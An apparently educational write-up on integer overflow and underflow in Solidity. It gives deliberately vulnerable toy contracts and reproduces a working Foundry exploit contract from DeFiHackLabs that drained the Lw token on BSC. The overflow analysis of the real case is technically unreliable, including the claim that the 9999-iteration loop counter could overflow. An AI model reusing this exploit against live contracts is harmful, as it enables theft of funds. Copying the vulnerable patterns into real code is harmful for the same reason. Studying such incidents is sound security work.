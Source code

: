 ## Description
This vulnerability was first identified during the attack on BEC tokens [1]. It occurs when the result of a calculation exceeds the maximum or minimum limit of the variable's data type, making it impossible to accurately represent the value. This issue is particularly prevalent in smaller data types. For instance, when a balance reaches the upper limit of  2^256 ,  it resets to zero. Furthermore, division operations on integers in Solidity can introduce rounding errors, which may result in unexpected discrepancies in calculations that require high precision [2]. While these issues may not directly constitute an integer overflow or underflow vulnerability, they can lead to logical flaws in the business logic of smart contracts.
## Toy Example
```Solidity
pragma solidity ^0.7.0;

contract OverflowExample {
    uint8 public maxValue = 255; // Maximum value for uint8 (2^8 - 1)

    function add(uint8 _value) public returns (uint8) {
        uint8 result = maxValue + _value; // ⚠️ This line may cause an Overflow
        return result;
    }
}
```
```Solidity
pragma solidity ^0.7.0;

contract UnderflowExample {
    uint8 public minValue = 0; // Minimum value for uint8

    function subtract(uint8 _value) public returns (uint8) {
        uint8 result = minValue - _value; // ⚠️ This line may cause an Underflow
        return result;~
    }
}
```


## Real-World Example
Date Identified: 08/07/2024

Lost: ~7K USD

Highlighted Line: Lw.transferFrom(address(Lw), address(this), 1_000_000_000_000_000_000_000_000_000_000_000);
 
•	Potential Integer Overflow:
o	The value 1_000_000_000_000_000_000_000_000_000_000_000 is extremely large and could exceed the storage capacity of uint256, especially if the Lw contract does not implement overflow protection.
o	If the Lw contract is written in an older version of Solidity (prior to 0.8.0) or does not use a library like SafeMath, it may allow an overflow to occur, causing the value to "wrap around" to a smaller number, effectively bypassing intended limits.

Highlighted Line: while (i < 9999) {
    swap_token_to_token(address(Lw), address(BUSDT), 800_000_000 ether);
    i++;
}
 
•	Risk of Integer Overflow on i:
o	The variable i is incremented in a loop up to 9999 iterations. If there is an overflow in i (e.g., if i exceeds uint256 storage capacity), the loop may behave unexpectedly, causing unintended or infinite execution.
•	Potential Overflow in Token Amount:
o	The value 800_000_000 ether is passed to the swap_token_to_token function. If this value is further processed in the Lw or BUSDT contracts without overflow protection, it could result in unintended behavior or manipulation of balances.

Below is the smart contract used in the exploitation of the identified vulnerabilities [3].
```Solidity 
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./../interface.sol";

// @KeyInfo -- Total Lost : ~7K USD
// TX : https://app.blocksec.com/explorer/tx/bsc/0x96a955304fed48a8fbfb1396ec7658e7dc42b7c140298b80ce4206df34f40e8d
// Attacker : https://bscscan.com/address/0x56b2d55457b31fb4b78ebddd6718ea2667804a06
// Attack Contract : https://bscscan.com/address/0xfe7e9c76affdba7b7442adaca9c7c059ec3092fc
// GUY : https://x.com/0xNickLFranklin/status/1810245893490368820

contract Exploit is Test {
    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);
    IERC20 WBNB = IERC20(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c);
    IERC20 Lw = IERC20(0xABC6e5a63689b8542dbDC4b4f39a7e00d4AC30c8);
    IERC20 BUSDT = IERC20(0x55d398326f99059fF775485246999027B3197955);
    address Hackcontract;

    function setUp() external {
        cheats.createSelectFork("bsc", 40_287_544);
        deal(address(BUSDT), address(this), 0);
    }

    function testExploit() external {
        emit log_named_decimal_uint("[Begin] Attacker BUSDT before exploit", BUSDT.balanceOf(address(this)), 18);
        Money Hackcontract = new Money();
        emit log_named_decimal_uint("[End] Attacker BUSDT after exploit", BUSDT.balanceOf(address(this)), 18);
    }
}

contract Money is Test {
    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);
    IERC20 WBNB = IERC20(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c);
    IPancakePair Pair = IPancakePair(0x88fF4f62A75733C0f5afe58672121568a680DE84);
    IERC20 Lw = IERC20(0xABC6e5a63689b8542dbDC4b4f39a7e00d4AC30c8);
    IERC20 BUSDT = IERC20(0x55d398326f99059fF775485246999027B3197955);
    IPancakeRouter router = IPancakeRouter(payable(0x10ED43C718714eb63d5aA57B78B54704E256024E));
    address owner;

    constructor() {
        owner = msg.sender;
        Attack();
    }

    function Attack() public {
        Lw.transferFrom(address(Lw), address(this), 1_000_000_000_000_000_000_000_000_000_000_000);
        uint256 i = 0;
        while (i < 9999) {
            swap_token_to_token(address(Lw), address(BUSDT), 800_000_000 ether);
            i++;
        }
        BUSDT.transfer(msg.sender, BUSDT.balanceOf(address(this)));
    }

    function swap_token_to_token(address a, address b, uint256 amount) internal {
        IERC20(a).approve(address(router), type(uint256).max);
        address[] memory path = new address[](2);
        path[0] = address(a);
        path[1] = address(b);
        router.swapExactTokensForTokensSupportingFeeOnTransferTokens(amount, 0, path, address(this), block.timestamp);
    }
}
``` 
## References 
[1] Huashan Chen, Marcus Pendleton, Laurent Njilla, and Shouhuai Xu. A survey on ethereum systems security: Vulnerabilities, attacks, and defenses.
ACM Computing Surveys (CSUR), 53(3):1–43, 2020.

[2] Christof Ferreira Torres, Julian Schütte, and Radu State. Osiris: Hunting for integer bugs in ethereum smart contracts. In Proceedings of the 34th
annual computer security applications conference, pages 664–676, 2018.

[3] https://github.com/SunWeb3Sec/DeFiHackLabs
